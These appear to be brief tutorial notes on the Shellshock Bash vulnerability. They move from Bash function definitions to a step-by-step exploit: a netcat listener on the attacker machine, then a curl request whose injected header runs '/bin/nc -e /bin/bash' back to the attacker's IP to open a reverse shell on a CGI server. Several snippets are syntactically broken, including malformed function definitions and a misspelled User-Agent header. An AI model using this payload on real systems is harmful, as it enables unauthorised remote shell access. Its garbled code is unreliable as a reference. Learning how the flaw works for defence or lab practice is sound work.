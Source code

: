 # Shellshock

### Bash functions

* Can be defined in "one liners"


```
$ welcome() {echo "Hi $User}
```

Type welcome:

```
$ welcome
```

Output:
> Hi user

* Can be defined in environment variables



```
$export hellofunc="() {echo "Hi $User}"

```

```
$bash -c 'hellofunc'
```

### Shellshock

> env val='() { : ;}; echo vulnerable' bash -c "echo test"


### Exploit Shellshock to gain a Shell

#### Turn on a netcat listener on attacker machine


> netcat -nlvp 443




#### Use curl send a request



> curl -H "user agent: () { : ;};echo;/bin/nc -e /bin/bash [yourIPaddress] 443" [targetIPaddress]/cgi-bin/vulnerable.cgi
 






